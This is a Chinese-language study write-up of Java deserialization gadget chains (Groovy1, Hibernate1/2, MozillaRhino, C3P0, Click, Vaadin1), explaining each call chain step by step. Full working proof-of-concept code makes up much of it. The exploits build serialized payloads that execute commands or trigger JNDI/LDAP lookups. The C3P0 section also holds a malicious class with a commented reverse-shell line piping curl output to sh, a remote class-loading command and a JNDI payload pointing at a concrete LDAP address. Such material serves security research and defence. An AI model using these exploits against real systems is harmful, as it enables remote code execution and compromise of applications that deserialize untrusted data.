

# 	Groovy1

Groovy 是一种基于 JVM 的开发语言，具有类似于 Python，Ruby，Perl 和 Smalltalk 的功能。Groovy 既可以用作 Java 平台的编程语言，也可以用作脚本语言。groovy 编译之后生成 .class 文件，与 Java 编译生成的无异，因此可以在 JVM 上运行。

在项目中可以引用 Groovy 的相关包依赖，分为核心包和模块包，如果想依赖全部包，可以使用 groovy-all。本条利用 Gadget 就是在 groovy 核心包中。

## POC

```java
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.lang.reflect.C  onstructor;
import java.lang.annotation.Retention;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

public class Groovy {

    static String command = "calc";

    public static void main(String[] args){
        // write object
        try{
            MethodClosure methodClosure = new MethodClosure(command,"execute");
            final ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
            Class<?>[] allInterfaces = (Class<?>[]) Array.newInstance(Class.class,1);
            allInterfaces[0] = Map.class;
            Object o = Proxy.newProxyInstance(Groovy.class.getClassLoader(), allInterfaces, closure);

            final Map map=Map.class.cast(o);
//            map.entrySet().iterator();

            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Retention.class, map);

            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("groovy2.obj"));
            //ObjectOutputStream能把Object输出成Byte流
            oos.writeObject(instance);//序列化关键函数
            oos.flush();  //缓冲流
            oos.close(); //关闭流
        }catch (Exception e)
        {
            e.printStackTrace();
        }


        // load object
        try {
            File file = new File("groovy2.obj");
            ObjectInputStream ois= new ObjectInputStream(new FileInputStream(file));
            Object x = ois.readObject();//反序列化的关键函数
            System.out.print(x);
            ois.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## 前置知识

### MethodClosure

`org.codehaus.groovy.runtime.MethodClosure` 是方法闭包，使用闭包代表了一个对象的一个方法，可以很方便的调用。

MethodClosure 初始化时接收两个参数，一个是对象，一个是对象的方法名称。


MethodClosure 中有一个 doCall 方法，调用 `InvokerHelper.invokeMethod()` 方法进行方法调用。


在它的父类有一个call方法,也可以使用该方法

这样就可以使用 MethodClosure 执行系统命令：

```java
MethodClosure mc = new MethodClosure(Runtime.getRuntime(), "exec");
Method        m  = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
m.setAccessible(true);
m.invoke(mc, "calc");
或者
MethodClosure mc = (MethodClosure) new MethodClosure(Runtime.getRuntime(), "exec").call("calc");
 MethodClosure mc = (MethodClosure) new MethodClosure(new ProcessBuilder("calc"), "start").call();
```

### String.execute() 方法

Groovy 为 String 类型添加了 `execute()` 方法，以便执行 shell 命令，这个方法会返回一个 Process 对象。也就是说，在 Groovy 中，可以直接使用 `"ls".execute()` 这种方法来执行系统命令 “ls”。

写法非常简单，例如：


实际上就是调用 `Runtime.getRuntime().exec()` 方法执行系统命令：


在 Java 中，就可以直接写做：

```java
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();
```

这里插一句,因为Runtime和Process类没有实现serialie接口,所以这里没有选择那两个类

### ConvertedClosure

`org.codehaus.groovy.runtime.ConvertedClosure` 是一个通用适配器，用于将闭包适配到 Java 接口。`ConvertedClosure` 实现了 `ConversionHandler` 类，而 `ConversionHandler` 又实现了 `InvocationHandler`。所以说 `ConvertedClosure` 本身就是一个动态代理类。

`ConvertedClosure` 的构造方法接收一个 `Closure` 对象和一个 String 类型的 method 方法名，也就是说 `ConvertedClosure` 会代理这个 `Closure` 对象，当调用其 method 方法时，将会调用 `ConvertedClosure` 父类的 `invoke` 方法，除了 `toString` 和一些默认方法外，会调用 `invokeCustom` 方法。

如果初始化时指定的 method 与 `invokeCustom` 指定的 method 参数相同，则 `invokeCustom` 方法将会调用代理对象 Closure 的 call 方法执行传入参数执行。


看到这里就明白这条链的触发逻辑了。后面自然是使用 AnnotationInvocationHandler 将 ConvertedClosure 代理成 Map 类。这样在反序列化

## 调用链


然后既进入invoke方法


这里有一个关键点,就是前面的判断语句,我们需要让他为fall才能调用后面的call方法

```java
this.methodName != null && !this.methodName.equals(method.getName())
```


这里method.getName是固定的`entrySet`,是在readObject中被代理的方法


this.methodName是在构造方法中赋值的,所以说我们传入了

```
ConvertedClosure closure = new ConvertedClosure(methodClosure, "entrySet"); 
或者
ConvertedClosure closure = new ConvertedClosure(methodClosure, null);
```

# 参考

https://paper.seebug.org/1171/

https://su18.org/post/ysoserial-su18-3/#groovy1

# Hibernate1

Hibernate 是开源的一个 ORM 框架，用户量极其庞大，Hibernate1 依旧是利用 TemplatesImpl 这个类，找寻 `_outputProperties` 的 getter 方法的调用链。

## 利用条件

Hibernate : 3-5

## 前置知识

### BasicPropertyAccessor

该类有一个关键的类置类`BasicGetter`,该类的get方法可以执行我们传入对象的method方法,这里的构造方法是`private`类型的,接下来应该去找哪里创建了BasicGetter对象


BasicGetter对象获取是通过这个getGetter方法进行调用


可以看到后面用了一个`getterMethod`方法来获取我们的get方法并传入到`BasicGetter`的构造函数中,看一下他的处理逻辑,获取两个参数,一个为class,另一个是名字,这里通过反射获取了class中的所有方法,然后通过for循环进行遍历,然后有几个if判断

- 该方法没有参数
- 不是Bridge方法
- 以get开头
- 我们的propertyName需要和getterName相等(或者跟经过decapitalize方法处理后的字符串相等)


到目前为止,我们命令执行的方法调用为:

```java
        TemplatesImpl evilObj=SerializeUtil.generateTemplatesImpl();
        Getter evil=new BasicPropertyAccessor().getGetter(TemplatesImpl.class,"outputProperties");  //获取BasicGetter对象
        //Getter evil=new BasicPropertyAccessor().createGetter(TemplatesImpl.class,"outputProperties");
        evil.get(evilObj);
```

我们的下一个目标则是找哪里调用了我们的get方法,而且参数可控。lazymap可以调用get()方法,但是参数有限制,这里就要去找其他方了

### AbstractComponentTuplizer

在`org.hibernate.tuple.component.AbstractComponentTuplizer`中有一个getPropertyValue方法,可以调用get方法,但是该类有一个抽象类,我们去找他的子类

`org.hibernate.tuple.component.PojoComponentTuplizer#getPropertyValues`方法中调用了`super.getPropertyValues(component)`


现在的payload变为:

```java
        TemplatesImpl evilObj=SerializeUtil.generateTemplatesImpl();
        Getter evil=new BasicPropertyAccessor().getGetter(TemplatesImpl.class,"outputProperties");  //获取BasicGetter对象
        //Getter evil=new BasicPropertyAccessor().createGetter(TemplatesImpl.class,"outputProperties");

        PojoComponentTuplizer getget = (PojoComponentTuplizer) SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
        SerializeUtil.setFieldValue(getget,"getters",new Getter[]{evil});
        Method getPropertyValues=getget.getClass().getDeclaredMethod("getPropertyValues",Object.class);
        getPropertyValues.invoke(getget,evilObj);                                                               //执行getPropertyValues方法
```

下一步则是找哪里调用了可用的`getPropertyValues`方法或者`getPropertyValue`方法

### ComponentType

`org.hibernate.type.ComponentType#getPropertyValue(java.lang.Object, int)`中带哦用了`getPropertyValue`方法,如果component不是数组的话就能进行一个调用


查看一下继承关系


该方法又在getHashCode方法中调用


getHashCode方法调用则是在`org.hibernate.engine.spi.TypedValue`中


### TypedValue

initTransients方法为private类型,看看哪里调用了该方法


该构造方法传入一个Type对象和一个object,然后通过调用方法,将hashcode成员设置成ValueHolder类型的对象,并且还重写了`initialize`方法


看到这里大概逻辑应该就懂了,利用hashMap触发hashcode方法,从而完成整个利用链的调用

### GetterMethodImpl

在 Hibernate1 5.x 里，实现了 `org.hibernate.property.access.spi.GetterMethodImpl` 类，这个类能够替代 `BasicPropertyAccessor$BasicGetter.get()` 来调用 getter 方法。


这个类初始化时直接接收一个 Method，而 get 方法直接调用，可以用来执行任意方法。

```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.BasicPropertyAccessor;
import org.hibernate.property.Getter;
import org.hibernate.tuple.component.ComponentTuplizer;
import org.hibernate.type.Type;

import java.lang.reflect.Constructor;
import java.util.HashMap;
/**
 * HashMap.readObject()
 *     TypedValue.hashCode()
 *         ValueHolder.getValue()
 *             ValueHolder.DeferredInitializer().initialize()
 *                 ComponentType.getHashCode()
 * 		            PojoComponentTuplizer.getPropertyValue()
 *                         AbstractComponentTuplizer.getPropertyValue()  
 *                             BasicPropertyAccessor$BasicGetter.get()/GetterMethodImpl.get()
 *                                 TemplatesImpl.getOutputProperties()
 */
public class H1byme {
    private static Object evil;

    public static void main(String[] args) throws Exception {

        TemplatesImpl evilObj=SerializeUtil.generateTemplatesImpl();


        try {//不同的版本有细小的差别
            // 创建 GetterMethodImpl 实例，用来触发 TemplatesImpl 的 getOutputProperties 方法
            Class<?> getterImpl = Class.forName("org.hibernate.property.access.spi.GetterMethodImpl");
            Constructor<?> constructor = getterImpl.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
          evil = constructor.newInstance(null, null, TemplatesImpl.class.getDeclaredMethod("getOutputProperties"));
        } catch (Exception ignored) {
           evil=new BasicPropertyAccessor().getGetter(TemplatesImpl.class,"outputProperties");  //获取BasicGetter对象
            //Getter evil=new BasicPropertyAccessor().createGetter(TemplatesImpl.class,"outputProperties");
        }

        Object  getget =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
       SerializeUtil.setFieldValue(getget,"getters",new Getter[]{(Getter) evil});

        Object GetPro =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.type.ComponentType"));
        SerializeUtil.setFieldValue(GetPro,"componentTuplizer",(ComponentTuplizer)getget);
        SerializeUtil.setFieldValue(GetPro,"propertySpan",1);

        TypedValue getHashCode =new TypedValue((Type) GetPro,null);  //通过反射赋值,以免在序列化的时候调用gadget
        HashMap map=new HashMap<>();
        map.put(getHashCode,"Yasax1");
        SerializeUtil.setFieldValue(getHashCode,"value",evilObj);


       SerializeUtil.writeObjectToFile(map,"h1");
       SerializeUtil.readFileObject("h1");
    }
}
```

# Hibernate2

既然是触发 getter 方法，这就让我们想到了 fastjson 的经典触发方式，除了 TemplatesImpl 实例化恶意类字节码，还有 JdbcRowSetImpl 触发恶意 JNDI 查询，Hibernate2 就是这种方式，不知道这两个漏洞是谁先出的，谁借鉴的谁。

在 fastjson 中使用 JdbcRowSetImpl 的 `setAutoCommit`（setter）方法触发 JNDI 查询，而在 Hibernate2 中由于是触发 getter 方法，因此我们选择 `getDatabaseMetaData`。


## 利用条件

Hibernate : 3-5

## Poc

```java
import Tools.SerializeUtil;
import com.sun.rowset.JdbcRowSetImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.BasicPropertyAccessor;
import org.hibernate.property.Getter;
import org.hibernate.tuple.component.ComponentTuplizer;
import org.hibernate.type.Type;

import java.util.HashMap;

/***
 * HashMap.readObject()
 *     TypedValue.hashCode()
 *         ValueHolder.getValue()
 *             ValueHolder.DeferredInitializer().initialize()
 *                 ComponentType.getHashCode()
 *                     PojoComponentTuplizer.getPropertyValue()
 *                         AbstractComponentTuplizer.getPropertyValue()
 *                             BasicPropertyAccessor$BasicGetter.get()/GetterMethodImpl.get()
 *                                 JdbcRowSetImpl.getDatabaseMetaData()
 */


public class H2byme {
    private static Object evil;

    public static void main(String[] args) throws Exception {

        JdbcRowSetImpl evilObj=new JdbcRowSetImpl();
        evilObj.setDataSourceName("ldap://*****/4xrotz");
        evil=new BasicPropertyAccessor().getGetter(JdbcRowSetImpl.class,"DatabaseMetaData");  //获取BasicGetter对象

        Object  getget =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
        SerializeUtil.setFieldValue(getget,"getters",new Getter[]{(Getter) evil});

        Object GetPro =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.type.ComponentType"));
        SerializeUtil.setFieldValue(GetPro,"componentTuplizer",(ComponentTuplizer)getget);
        SerializeUtil.setFieldValue(GetPro,"propertySpan",1);

        TypedValue getHashCode =new TypedValue((Type) GetPro,null);  //通过反射赋值,以免在序列化的时候调用gadget
        HashMap map=new HashMap<>();
        map.put(getHashCode,"Yasax1");
        SerializeUtil.setFieldValue(getHashCode,"value",evilObj);


        SerializeUtil.writeObjectToFile(map,"h2");
        SerializeUtil.readFileObject("h2");
    }
}
```

# MozillaRhino

Rhino 是完全使用 Java 编写的 JavaScript 的开源实现，最初由 Mozilla 开发，后被集成至 JDK，此项目进一步扩展了 Java 的动态性，使 Java 可以调用 js 脚本，实现脚本语言与 Java 语言的数据交换。Rhino 的 ScriptEngine 经常被用来进行 JVM 沙箱逃逸。

Oracle JRE 6/7 捆绑了 Rhino 的旧分支（sun.org.mozilla.* 下的软件包），Oracle 使用 JRE7u13对 Rhino 核心类进行了一些强化，使其不再可序列化。这些更改是为了修复 James Forshaw 的沙箱逃逸 (CVE-2012-3213)，但是这些改变并没有被纳入 Mozilla 的 Rhino 中，因此，如果使用了与 Ubuntu 或 Debian 捆绑在一起的 OpenJdk，则可能依然存在此条利用链。

这条链子是通过invoke来触发恶意`TemplatesImpl#newTransformer`

## 利用条件

rhino-js > 1.6R6

## 前置知识

### NativeError

看下继承关系


这条链子的入口是在NativeError#toString中,这里将我们的this对象传入到`js_toString`中


然后js_toString调用了getString方法

这里调用了`ScriptableObject#getProperty`


调用obj.get方法,`NativeError`中没有get方法,去它的父类`IdScriptableObject`中找


这里又调用了super.get,来到`ScriptableObject`


来到了getImpl方法,这个方法比较重要。


这里上面有一个invoke方法,`nativeGetter`是`MemberBox`类,其invoke方法会直接调用method#invoke方法


但是这里无法使用,因为getterThis是有限制的


这里`delegateTo`是`transient`类型,在readObject中也没有发现有赋值操作,我们只能进入第一个if语句,而start对象又是Scriptable类型



但是下面有一个call方法可以被我们利用


getterObj的赋值

```java
ScriptableObject.Slot slot = this.getSlot(name, index, 1);    //看名字应该是通过设置的name或者index查找slot
Object getterObj = ((ScriptableObject.GetterSlot)slot).getter;
```

getter为Object对象,可以被我们控制,然后下面将其强转成了Funtion类型,调用了其中了call方法,如有有恶意的call方法,那么我们这里就可以进行一个利用


### NativeJavaMethod

该类继承于BaseFunction,看一下继承关系,可以发现同时实现了Functon和Serializable接口


看看该类的call方法,里面有一个invoke方法,meth为MemberBox类型对象


之前已经说过了,MemberBox类中的invoke中可以调用Method#invoke,再来看下

#### MemberBox


这里会调用target对线的method方法,method通过this.method()赋值


这里会返回`this.memberObject`,该成员为Member类,我们的Method类就是它的一个子类,但是之类被transient所修饰,不过在该类的readObject中会对memberObject进行一个赋值


在init中会进行一个赋值


接着就需要看看member是如何赋值的,这里大概看了下,应该也是类似序列化反序列化的过程


### NativeJavaMethod

我们先回到`NativeJavaMethod`,看看meth,javaObject,args是如何进行赋值的


meth通过methods数组的下标进行取值,这里可以被我们控制


首先将我们最开始的NativeError赋值给o,然后经过一个while循环,其中要求我们的o为Wrapper类的实例,这里我们明显是无法满足的,但是我们先跳过这个if判断,来到下面的getPrototype方法,


`getPrototype`在父类`ScriptableObject`中,直接返回`prototypeObject`


`prototypeObject`为Scriptable类型,又要实现Wrapper接口


这里我们去找一下同时实现两个接口的类,这里找到的是NativeJavaObject,他的unwrap会直接返回javaObject成员


这里被transient所修饰,默认无法被序列化


但是它的writeObject中将其调用了writeObject


然后这里又将其取出


所以这里也是可以被我我们所控制

然后这里还有他的子类,array为object类型,也是可以使用的


args则是我们之前的入参,默认为空,


## Poc

写不来,感觉有很多细节还是没理明白

```java
package MozillaRhino;

import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.*;
import org.mozilla.javascript.*;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
/*BadAttributeValueExpException.readObject()
    NativeError.toString()
        ScriptableObject.getProperty()
            ScriptableObject.getImpl()
                NativeJavaMethod.call()
                    NativeJavaObject.unwrap()
                        MemberBox.invoke()
                            TemplatesImpl.newTransformer()
*/
public class MozillaRhino1 {

    public static String fileName = "MozillaRhino1.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();

        // 实例化 NativeError 类
        Class<?>       nativeErrorClass       = Class.forName("org.mozilla.javascript.NativeError");
        Constructor<?> nativeErrorConstructor = nativeErrorClass.getDeclaredConstructor();
        nativeErrorConstructor.setAccessible(true);
        Scriptable nativeError = (Scriptable) nativeErrorConstructor.newInstance();

        // 使用恶意类 TemplatesImpl 初始化 NativeJavaObject
        // 这样 unwrap 时会返回 tmpl 实例
        // 由于 NativeJavaObject 序列化时会调用 initMembers() 方法
        // 所以需要在实例化 NativeJavaObject 时也进行相关初始化
        Context context = Context.enter();
        NativeObject scriptableObject = (NativeObject) context.initStandardObjects();
        NativeJavaObject nativeJavaObject = new NativeJavaObject(scriptableObject, tmpl, TemplatesImpl.class);

        // 使用 newTransformer 的 Method 对象实例化 NativeJavaMethod 类
        Method newTransformer   = TemplatesImpl.class.getDeclaredMethod("newTransformer");
        NativeJavaMethod nativeJavaMethod = new NativeJavaMethod(newTransformer, "name");

        // 使用反射将 nativeJavaObject 写入到 NativeJavaMethod 实例的 prototypeObject 中
        Field prototypeField = ScriptableObject.class.getDeclaredField("prototypeObject");
        prototypeField.setAccessible(true);
        prototypeField.set(nativeError, nativeJavaObject);

        // 将 GetterSlot 放入到 NativeError 的 slots 中
        Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
        getSlot.setAccessible(true);
        Object slotObject = getSlot.invoke(nativeError, "name", 0, 4);

        // 反射将 NativeJavaMethod 实例放到 GetterSlot 的 getter 里
        // ysoserial 调用了 setGetterOrSetter 方法，我这里直接反射写进去，道理都一样
        Class<?> getterSlotClass = Class.forName("org.mozilla.javascript.ScriptableObject$GetterSlot");
        Field    getterField     = getterSlotClass.getDeclaredField("getter");
        getterField.setAccessible(true);
        getterField.set(slotObject, nativeJavaMethod);

        // 生成 BadAttributeValueExpException 实例，用于反序列化触发 toString 方法
        BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
        Field                         valField  = exception.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(exception, nativeError);

        SerializeUtil.writeObjectToFile(exception, fileName);
        SerializeUtil.readFileObject(fileName);
    }

}
```

# C3P0

## 环境搭建

编译恶意类

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    static {
        try{
            Runtime rt = Runtime.getRuntime();
            // reverse shell
            //String[] commands =  {"bash","-c","curl https://reverse-shell.sh/IP:PORT|sh"};
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        }catch (Exception e){
            // do nothing
        }
    }
}
```

挂载在9091端口

```cmd
python3 -m http.server 9091
```


使用yso生成序列化文件

```cmd
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar C3P0 "http://0.0.0.0:9091/:Exploit" > poc.ser
```

payload:

```java
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class C3P0 {
    public static void main(String args[]) throws IOException, ClassNotFoundException {
        String path = System.getProperty("user.dir");
        System.out.println(path);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(path+"\\poc.ser"));
        // trigger deserialization point
        in.readObject();
    }
}
```

Maven依赖:

```XML
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.3</version>
</dependency>
```

## http base

## 前置知识

### Reference

之前学习jndi和工厂模式的时候就接触过,大概就是一个指向一个具体对象的对象


## 流程分析

这条链子的入口是在`PoolBackedDataSourceBase#readObject`


首先会调用readShort来获取一个version,如果为1则进入,然后调用readObject方法获取到O,接着如果o为`IndirectlySerialized`实例化对象的话则调用他的getObject方法,这条链子是要进入getObject方法的,先去看看writeObject方法


这里写入的object并没有满足`IndirectlySerialized`,也没有发现有哪个类同时满足于这两个类型(这里我觉得应该是可以通过javassist技术来修改writeObject逻辑?)

看他们是通过`writeObject(this.connectionPoolDataSource)`进行报错(this.connectionPoolDataSource没有实现Serializable),进入下面的catch语句


```JAVA
 public IndirectlySerialized indirectForm(Object var1) throws Exception {
        Reference var2 = ((Referenceable)var1).getReference();
        return new ReferenceIndirector.ReferenceSerialized(var2, this.name, this.contextName, this.environmentProperties);
    }
```

这里进行了一系列赋值,并且创建了相关对象


回到readObject,在getObject方法中


往下走,这里有一个Class.forName


这里通过URLClassloader进行了一个恶意类加载。

## JNDI注入

当目标含有fastjson,jackson这些可以调用setter的组件,而且目标可以出网的时候,可以进行jndi攻击(jndi适用于jdk8u191以下支持reference情况)

### Poc

```java
package c3p0;

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;

class Person {
    public Object object;
}

public class JNDIPoc {
    public static void main(String[] args) throws IOException {
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",{\"jndiName\":\"ldap://81.69.27.32:1389/uhbrqp\", \"loginTimeout\":0}]}";
        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }
}
```

流程:

首先哦通过setJndiName来对JndiName进行一个赋值


然后调用setLoginTimeout


有个lookup


## hex序列化字节加载器

hex序列化字节加载器适用于不出网但是目标依赖有gadget链的情况。

其原理是利用jackson的反序列化时调用userOverridesAsString的setter，在setter中运行过程中会把传入的HexAsciiSerializedMap开头的字符串进行解码并触发原生反序列化。

### Poc

```java

import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.*;

/*class Person {
    public Object object;
}*/

public class hexPoc {
    public static void main(String[] args) throws IOException {

        InputStream in = new FileInputStream("Exploit.class");
        byte[] data = toByteArray(in);
        in.close();
        String HexString = bytesToHexString(data, data.length);
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";

        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```


# Click

## 利用条件

click-nodeps : 2.3.0

## 前置知识

这条链子利用的TemplatesImpl.getoutputProperties触发的

`org.apache.click.util.PropertyUtils#getValue`方法可以用来操作属性,


处理完name之后会传入`getObjectPropertyValue`方法,传入对象,字段名和缓存

然后这里首先会尝试从缓存中获取method,如果没有,则通过toGetterName获取字段的getter方法,然后放入缓存,接着触发invoke


## 流程分析

该类是一个内置类,继承于compare接口,且实现了ser接口


这里的row和name都可控

## Poc

```java
package Click;

import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.lang.reflect.Constructor;
import java.util.PriorityQueue;
/*
PriorityQueue.readObject()
    Column$ColumnComparator.compare()
        Column.getProperty()
            PropertyUtils.getValue()
                PropertyUtils.getObjectPropertyValue()
                    TemplatesImpl.getOutputProperties()
 */
public class Clbyne {
    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = SerializeUtil.generateTemplatesImpl();
        //PriorityQueue 实例
        PriorityQueue priorityQueue = new PriorityQueue<>(2);
        priorityQueue.add("Yasax1");
        priorityQueue.add("Yasax1");

        Column cc=new Column();

        Class<?>       c           = Class.forName("org.apache.click.control.Column$ColumnComparator");
        Constructor<?> constructor = c.getDeclaredConstructor(Column.class);
        constructor.setAccessible(true);
        Object col=constructor.newInstance(cc);


        Object[] objects = new Object[]{templates, templates};
        SerializeUtil.setFieldValue(priorityQueue, "comparator", col);
        SerializeUtil.setFieldValue(priorityQueue, "queue", objects);

        SerializeUtil.setFieldValue(cc,"name","outputProperties");
        //不设置table属性反序列化时会抛出异常
        SerializeUtil.setFieldValue(cc,"table",new Table());

        SerializeUtil.writeObjectToFile(priorityQueue,"Click");
        SerializeUtil.readFileObject("Click");

    }
}
```

# Vaadin1

## 利用条件

vaadin-server : 7.7.14
vaadin-shared : 7.7.14

## 前置知识

### NestedMethodProperty

`com.vaadin.data.util.NestedMethodProperty`是一个封装访问属性方法的类,

其中的getValue方法可以进行方法调用


然后去看一下readObject


会调用initialize方法

这里关键的就是这个initGetterMethod方法


它会通过我们传入的字段名去找对应的getter方法,如果没有找到则会抛出异常


### PropertysetItem

该类的tostring方法调用了getValue


这里会从map中返回一个Property类型对象,我们的`NestedMethodProperty`实现了该接口


该类并没有重写readOject方法,我们只需要吧需要的给设置进去就行了


## Poc

```java
package Vaadin;

        import Tools.SerializeUtil;
        import com.vaadin.data.util.NestedMethodProperty;
        import com.vaadin.data.util.PropertysetItem;

        import javax.management.BadAttributeValueExpException;

/*
BadAttributeValueExpException.readObject()
    PropertysetItem.toString()
            PropertysetItem.getPropertyId()
                NestedMethodProperty.getValue()
                    TemplatesImpl.getObjectPropertyValue()
 */
public class Vabyme {
    public static void main(String[] args) throws Exception {
        Object tmpl= SerializeUtil.generateTemplatesImpl();
        PropertysetItem va=new PropertysetItem();
        NestedMethodProperty Nes=new NestedMethodProperty(tmpl,"outputProperties");

        va.addItemProperty("Yasx1",Nes);

        BadAttributeValueExpException bad=new BadAttributeValueExpException("fuck");
        SerializeUtil.setFieldValue(bad,"val",va);
        SerializeUtil.writeObjectToFile(bad,"Va");
        Object o=SerializeUtil.readFileObject("Va");
       /* SerializeUtil.writeObjectToFile(va,"Va");
        Object o=SerializeUtil.readFileObject("Va");
        o.toString();*/
    }
}
```


# 参考

https://paper.seebug.org/1187/#_1

https://su18.org/post/ysoserial-su18-3/#%E6%94%BB%E5%87%BB%E6%9E%84%E9%80%A0-3

https://www.yaowendao.com/2018/02/24/Mozilla%20Rhino%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9EPOC%E5%88%86%E6%9E%90/
